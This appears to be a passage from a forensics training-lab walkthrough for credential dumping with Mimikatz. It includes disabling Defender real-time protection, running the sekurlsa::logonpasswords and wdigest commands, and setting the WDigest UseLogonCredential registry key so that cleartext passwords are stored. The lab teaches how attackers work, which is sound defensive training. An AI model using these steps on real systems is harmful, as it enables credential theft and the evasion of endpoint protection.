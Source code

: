     **Hey!** Did you do this step? If not, do it. Otherwise you won't be able to run Mimikatz. And yes, this is a beyond common way of disabling WD. Technically, WD is not being disabled, just the real-time protection feature, but this is all you need to do to get away with most shenanigans.

1. Extract Mimikatz:
    
    ```powershell
    cd c:\Users\Public\Desktop\LAB_FILES\assets
    expand-archive mimikatz_trunk.zip
    ```

1. Run mimikatz meow:
    
    ```powershell
    cd .\mimikatz_trunk\x64\
    .\mimikatz.exe
    ```
   
1. At the Mimikatz prompt (`mimikatz #`), run the following commands:
   
    ```
    privilege::debug
    log m.txt
    sekurlsa::logonpasswords
    sekurlsa::wdigest
    ```

    The above commands explained:
    
    1. Set our required privileges
    1. Begin logging to a new file named `m.txt`
        - Log location: `c:\Users\Public\Desktop\LAB_FILES\assets\mimikatz_trunk\x64\m.txt`
    1. List provider credentials
    1. List WDigest-specific credentials
    
    Let's review the contents of the Mimikatz log file!
    
1. Open the `m.txt` log in notepad via:
    
    - Start menu -> type `run` -> click "Run (App)" -> enter:
    
    ```powershell
    notepad c:\Users\Public\Desktop\LAB_FILES\assets\mimikatz_trunk\x64\m.txt
    ```

    As you scroll through the log file, you may note that there are no cleartext credentials for a domain account. Let's change that :).

    We are going to enable cleartext password storage for WDigest. TAs love to do this, though you can (_and should!_) prevent this for elevated accounts by placing them in the [Protected Users Group in AD](https://for528.com/protectedusers). In this environment, that hasn't been done, so let's take advantage of the situation.

1. Close Notepad

1. Launch a separate PowerShell window as admin (**do not close your current Mimikatz prompt**) and run:

    ```powershell    
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    ```
    